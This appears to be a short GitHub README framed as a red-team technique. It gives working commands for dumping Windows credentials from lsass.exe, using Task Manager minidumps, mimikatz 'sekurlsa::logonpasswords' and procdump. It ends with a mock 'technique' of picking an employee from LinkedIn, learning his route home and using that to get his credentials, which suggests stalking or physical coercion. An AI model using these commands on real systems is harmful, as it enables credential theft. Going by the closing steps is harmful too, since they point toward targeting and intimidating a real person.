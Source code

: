 # the_new_redteaming_technique

First OF all, Create a minidump of the lsass.exe using task manager (must be running as administrator):

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTRoRHqLqkBWb_aw4%2FScreenshot%20from%202019-03-12%2019-55-27.png?alt=media&token=0c8f45d6-6425-4d5a-8e3f-1f30ff4577ec)

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTYMBz-VWM11dadu6%2FScreenshot%20from%202019-03-12%2019-56-12.png?alt=media&token=f92b493e-f1aa-4a46-8edf-d64eebdd9f65)

Second , Swtich mimikatz context to the minidump:
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nT6tDqGhJv_fdKOnw%2FScreenshot%20from%202019-03-12%2019-54-15.png?alt=media&token=cccc99d5-632c-40aa-903d-d89c21fb1133)


Now it's a time for Procdump

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nX2I6LfCsWLSkjzwg%2FScreenshot%20from%202019-03-12%2020-11-28.png?alt=media&token=43e85fd4-36bf-43ba-9fd9-62d43712e1e8)

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nXVaJRSNnJZayxbL_%2FScreenshot%20from%202019-03-12%2020-13-25.png?alt=media&token=4e87b3ef-c690-4b43-b3f6-0ba244495398)


After doing all of the above steps, you need to do the following steps: 

1- try to figure the needed employee from Linkedin profile of the company 
2- try to know when the employee will leave the work and which road he will take 
3- use this technique to get his creds 

![alt text](https://i.ibb.co/vQVQXkQ/279407320-359224712933498-202643383967457168-n.jpg)




PS : all screen shots are from https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz
